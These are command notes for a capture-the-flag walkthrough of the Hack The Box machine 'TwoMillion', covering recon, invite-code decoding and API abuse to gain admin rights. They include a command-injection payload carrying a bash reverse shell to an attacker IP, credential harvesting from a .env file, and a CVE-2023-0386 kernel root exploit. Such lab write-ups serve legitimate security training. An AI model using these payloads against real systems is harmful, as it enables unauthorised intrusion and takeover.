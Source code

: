 # 🎯 HTB: TwoMillion – Command Notes

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.10.11
nmap -p 22,80 -sCV 10.10.10.11
```

### Host File Entry
```bash
echo "10.10.10.11 2million.htb" | sudo tee -a /etc/hosts
```

### [FFUF – Subdomain Enumeration](HTTP)
```bash
ffuf -u http://10.10.10.11 -H "Host: FUZZ.2million.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

### Feroxbuster – Directory Brute Force
```bash
feroxbuster -u http://2million.htb
```

---

## 🎟️ Invite Code Challenge

### ROT13 Decode (CLI)
```bash
curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate | jq -r '.data.data' | tr 'a-zA-Z' 'n-za-mN-ZA-M'
```

### Generate Invite Code
```bash
curl -X POST http://2million.htb/api/v1/invite/generate -s | jq .data.code | xargs echo | base64 -d
```

---

## 🔐 Login & API Enumeration

### Get API Description
```bash
curl -s http://2million.htb/api/v1 | jq .
```

---

## 👮 Admin Privilege Escalation via API

### Gain Admin Privs
```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
-H "Content-Type: application/json" \
-d '{"email":"<your_email>", "is_admin":1}' \
-b cookies.txt
```

### Confirm Admin
```bash
curl -s http://2million.htb/api/v1/admin/auth -b cookies.txt
```

---

## 💥 Command Injection (Admin VPN API)

### Basic Test
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-d '{"username":"test; id #"}' -b cookies.txt
```

### Reverse Shell
```bash
# Listener
nc -lnvp 443

# Trigger
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-d '{"username":"; bash -c \"bash -i >& /dev/tcp/<your_ip>/443 0>&1\" #"}' \
-b cookies.txt
```

---

## 🧑‍💻 Shell as `admin`

### Credential in .env
```bash
cat /var/www/html/.env
# admin : SuperDuperPass123
```

### [SSH](SSH) / su as admin
```bash
su - admin
# or
sshpass -p 'SuperDuperPass123' ssh admin@2million.htb
```

---

## 🧑‍🔬 Privilege Escalation to root

### Kernel Info
```bash
uname -a
cat /etc/lsb-release
```

### Vulnerability: CVE-2023-0386 (OverlayFS)
Exploit repo: https://github.com/xkaneiki/CVE-2023-0386

### Steps
```bash
# Upload & unzip
scp CVE-2023-0386-main.zip admin@2million.htb:/tmp/
unzip CVE-2023-0386-main.zip && cd CVE-2023-0386-main

# Build
make all

# Start fuse script in terminal 1
./fuse ./ovlcap/lower ./gc

# Run exploit in terminal 2
./exp
```

If successful:
```bash
whoami
# root
```

---

## 📦 Beyond Root – Decode `thank_you.json`

### Decode Steps (CyberChef or CLI)
1. URL Decode
2. From Hex
3. From Base64
4. XOR with key: `HackTheBox`